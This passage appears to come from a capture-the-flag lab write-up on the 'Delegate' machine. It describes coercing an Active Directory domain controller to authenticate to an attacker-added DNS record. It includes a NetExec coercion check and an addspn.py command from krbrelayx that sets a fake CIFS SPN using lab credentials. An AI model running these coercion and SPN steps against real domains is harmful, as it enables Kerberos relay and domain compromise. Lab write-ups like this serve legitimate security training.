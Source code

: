 Now we only need to coerce the DC to talk with our fake DNS record.

Confirming that it is vulnerable to the Coerce attacks using the NetExec’s Coerce module.

![image.png](/assets/images/Delegate_VL/image%2030.png)

But when I triggered this using all the modules in NetExec.

![image.png](/assets/images/Delegate_VL/image%2031.png)

**I got this error cause we had not set the fake SPN to the fake dns record we added.**

So lets just do that using addSPN.py from the krbrelayx collection repository created by Dirkjanm.

```bash
python addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s CIFS/aashwins29.delegate.vl dc1.delegate.vl -t 'aashwin$' -dc-ip 10.129.242.110
```

![image.png](/assets/images/Delegate_VL/image%2032.png)
